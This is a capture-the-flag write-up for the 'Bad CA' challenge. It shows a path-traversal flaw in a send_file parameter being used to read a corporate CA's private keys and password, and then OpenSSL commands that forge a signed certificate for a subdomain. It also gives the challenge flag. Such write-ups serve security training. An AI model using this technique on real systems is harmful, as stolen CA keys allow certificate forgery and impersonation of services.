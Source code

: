 # Bad CA

> The corporate has set up their new fancy CA with ACME protocol. We use it to automatically issue certificates for all our internal services. Moreover, every employee was requested to install our new cool Root CA certificate.
>
> https://bad-ca.ecsc23.hack.cert.pl/
>
> It's just running for a few months and we have noticed that something extremely strange is going on. Somebody has obtained the correct certificate for example.com o_O. Just look:
>
> ```
> -----BEGIN CERTIFICATE-----
> MIICvzCCAmagAwIBAgIQQl2WzzfbdH4l/ORkR1pFIDAKBggqhkjOPQQDAjBKMRsw
> GQYDVQQKExJFQ1NDMjAyMyBDb3Jwb3JhdGUxKzApBgNVBAMTIkVDU0MyMDIzIENv
> cnBvcmF0ZSBJbnRlcm1lZGlhdGUgQ0EwHhcNMjMwNTIxMTcwMzU4WhcNMjMwNTIy
> MTcwNDU4WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAx7l+eraX
> 9pa46w+GdaLkWG9s50DKnC9+TbFHNuRGbLEJ01piEKcXJMd7qjtiLn8Luwn1A2q+
> C9rjzZnkElnTUG7lb+2XIKCpuEBpR9C1ikHRwTeYiBm7GYBFKbI3roTIZHi6K3hc
> TnLNOi1WIOYXyXHQd4CVey3W7AVb78JogC0ybl+WRAEoDEiEGJ2DFKB8uif2NBZb
> F4xGLSznUQIsb095XMwSLNLim2CCE/8Xci4Ae1J44iCd9Ce6q8JMfblUHC/qFjnx
> I7JRr6cLc4756NkMyVUIyx6OtMqGbR8QwNIbyaophE8vv5JRati9f47egKc1Nwud
> KvwD22jHaed4ywIDAQABo4GsMIGpMA4GA1UdDwEB/wQEAwIFoDAdBgNVHSUEFjAU
> BggrBgEFBQcDAQYIKwYBBQUHAwIwHQYDVR0OBBYEFDP0YcYTWi4lkIkexHGRmpeq
> +I+FMB8GA1UdIwQYMBaAFEyFcN3kt89/sm7b38UQaL3ry1jlMBkGA1UdEQEB/wQP
> MA2CC2V4YW1wbGUuY29tMB0GDCsGAQQBgqRkxihAAQQNMAsCAQYEBGFjbWUEADAK
> BggqhkjOPQQDAgNHADBEAiAZgKVVx7+AhpUezE2Frjs76pJ8ndUAQ5ZdxpLl6OUh
> oAIgOboWrx5IqP4YlQo39eSgWMOcfoK51j56cjmL2ZKmEyo=
> -----END CERTIFICATE-----
> ```
>
> This certificate is indeed correctly signed by our intermediate CA :(. Which is even worse, it's that we have checked the CA software logs and this issuance is indeed there! It seems like somebody has just started the http-01 challenge for example.com and it went through succesfully.
>
> Now I'm seriously confused. Could you try to get another certificate for <your_nickname>.example.com and paste it to the "Certificate Checker"? It's going to let me know automatically.

## LFI on the website
The website contains a redirect to `https://bad-ca.ecsc23.hack.cert.pl/send_file?path=certs` from where `root_ca.crt` and `intermediate_ca.crt` can be downloaded. However, `path` parameter is susceptible to LFI attack and can be used to list files with paths relative to web app's working directory. Eventually, path `../step/secrets` containing certificates' keys and password (`intermediate_ca_key`, `root_ca_key`, `password`) can be found.

## Creating and signing the certificate
Given the keys and password with which they are protected, it's possible to easily forge a signed certificate with any domain using OpenSSL. First, create `domain.ext` file with the following contents to set X509v3 Subject Alternative Name field:
```
subjectAltName = @alt_names

[alt_names]
DNS.1 = lodsb.example.com
```
Then:
```
$ openssl genrsa -out lodsb.example.com.key 2048
$ openssl req -new -sha256 -key lodsb.example.com.key -subj "/C=PL/ST=MP/O=FooBar, Inc./CN=lodsb.example.com" -out lodsb.example.com.csr
$ openssl x509 -req -in lodsb.example.com.csr -CA intermediate_ca.crt -CAkey intermediate_ca_key -CAcreateserial -out lodsb.example.com.crt -days 1337 -sha256 -extfile domain.ext
Certificate request self-signature ok
subject=C = PL, ST = MP, O = "FooBar, Inc.", CN = lodsb.example.com
Enter pass phrase for intermediate_ca_key:
$
```
Finally, copy contents of `lodsb.example.com.crt` into the checker on the website to reveal the flag.

## Flag
`ecsc23{this_dns_validation_doesnt_seem_about_right}`

## Footnote
_"Only sure things in life are death, taxes, and unintended solutions."_
